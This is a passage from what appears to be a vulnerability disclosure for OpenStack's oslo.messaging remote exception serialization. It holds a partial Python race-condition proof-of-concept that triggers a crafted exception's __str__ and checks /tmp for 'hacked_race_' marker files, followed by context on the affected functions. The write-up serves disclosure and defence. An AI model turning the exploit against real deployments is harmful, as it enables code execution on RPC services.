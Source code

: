 ```python
def deserializer():
    global hit_count
    while hit_count < 5:
        ex = Boom()
        print(f"Thread {threading.current_thread().name} created Boom")
        try:
            ex_queue.put(ex, timeout=0.1)
            time.sleep(random.uniform(0.001, 0.003))
        except queue.Full:
            time.sleep(random.uniform(0.001, 0.003))
            continue

def serializer():
    global hit_count
    while hit_count < 5:
        try:
            ex = ex_queue.get(timeout=0.3)
            print(f"Thread {threading.current_thread().name} got Boom, calling str")
            str(ex)  # Triggers Boom.__str__
            time.sleep(random.uniform(0.001, 0.003))
        except Queue.Empty:
            time.sleep(random.uniform(0.001, 0.003))
            continue

# Minimal thread setup
threads = [
    threading.Thread(target=deserializer, name=f"Deserializer-{i}") for i in range(2)
] + [
    threading.Thread(target=serializer, name=f"Serializer-{i}") for i in range(3)
]

for t in threads:
    t.start()
for t in threads:
    t.join(timeout=5)

print("Final hit_count:", hit_count)
print("Generated files:", sorted([f for f in os.listdir("/tmp") if f.startswith("hacked_race_")]))

```
---

## **OpenStack-specific Vulnerability Context**

The vulnerable functions `serialize_remote_exception()` and `deserialize_remote_exception()` are part of the `oslo.messaging` library, not Nova itself. Nova uses them as part of its RPC communication and error-handling infrastructure. These functions are located in `oslo_messaging/_drivers/common.py` and are called by various RPC transport mechanisms. Because oslo.messaging is a shared library across OpenStack services, this vulnerability has implications beyond Nova if other components reuse the same serialization logic.
